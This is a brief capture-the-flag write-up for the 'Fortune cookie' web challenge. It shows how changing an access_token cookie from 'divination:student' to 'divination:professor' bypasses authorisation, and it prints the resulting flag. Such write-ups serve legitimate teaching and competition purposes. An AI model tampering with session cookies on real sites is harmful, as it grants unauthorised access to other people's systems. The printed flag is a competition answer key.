 ```yaml
---
layout: default
---
```


![Fortune cookie (50 pts)](./screenshots/Fortune_cookie.png)
---
## CHALLENGE INFO
- __CHALLENGE LINK__: https://fortune.tghack.no/
- __ASSUMED OBJECTIVE__: Alter the site's __*cookies*__ to get the flag

---

## 1. Check cookies 

- From HTTP Response Headers:
  ```http
  ...
  Set-Cookie: access_token=divination:student
  ...
  ```

---

## 2. Change the value of __access_token__

- HTTP Request Headers:
  ```http
  ...
  Cookie: access_token=divination:professor
  ...
  ```

- Changing the value to __divination:professor__ returns:
  ```html
  OMG! You're so fortunate! Take this flag: TG19{what_a_fortune_my_lucky_one}
  ```

---

## FLAG : __TG19{what_a_fortune_my_lucky_one}__
